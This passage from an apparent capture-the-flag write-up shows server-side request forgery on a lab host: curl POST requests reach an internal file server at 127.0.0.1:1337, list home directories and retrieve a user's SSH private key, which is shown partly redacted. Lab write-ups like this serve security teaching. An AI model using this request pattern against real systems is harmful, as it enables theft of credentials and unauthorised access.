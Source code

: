 We can see the file system, let's see if we can navigate to other directories.

```terminal
$ curl 'http://beta.creative.thm' -X POST --data 'url=http://127.0.0.1:1337/home'     
[...]
</head>
<body>
<h1>Directory listing for /home/</h1>
<hr>
<ul>
<li><a href="saad/">saad/</a></li>
</ul>
<hr>
</body>
</html>
```

We managed to list the `home` directory revealing the user `saad`. Let's list his directory.

```terminal
$ curl 'http://beta.creative.thm' -X POST --data 'url=http://127.0.0.1:1337/home/saad'
[...]
<body>
<h1>Directory listing for /home/saad/</h1>
<hr>
<ul>
<li><a href=".bash_history">.bash_history</a></li>
<li><a href=".bash_logout">.bash_logout</a></li>
<li><a href=".bashrc">.bashrc</a></li>
<li><a href=".cache/">.cache/</a></li>
<li><a href=".gnupg/">.gnupg/</a></li>
<li><a href=".local/">.local/</a></li>
<li><a href=".profile">.profile</a></li>
<li><a href=".ssh/">.ssh/</a></li>
<li><a href=".sudo_as_admin_successful">.sudo_as_admin_successful</a></li>
<li><a href="snap/">snap/</a></li>
<li><a href="start_server.py">start_server.py</a></li>
<li><a href="user.txt">user.txt</a></li>
</ul>
<hr>
</body>
</html>

```

We can see a `.ssh` directory, hopefully it has a readable `id_rsa` key for us.

```terminal
$ curl 'http://beta.creative.thm' -X POST --data 'url=http://127.0.0.1:1337/home/saad/.ssh/id_rsa'
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABA1J8+LAd
[REDACTED]
Fcm9ZL3fa5FhAEdRXJrF8Oe5ZkHsj3nXLYnc2Z2Aqjl6TpMRubuu+qnaOdCnAGu1ghqQlS
ksrXEYjaMdndnvxBZ0zi9T+ywag=
-----END OPENSSH PRIVATE KEY-----
```
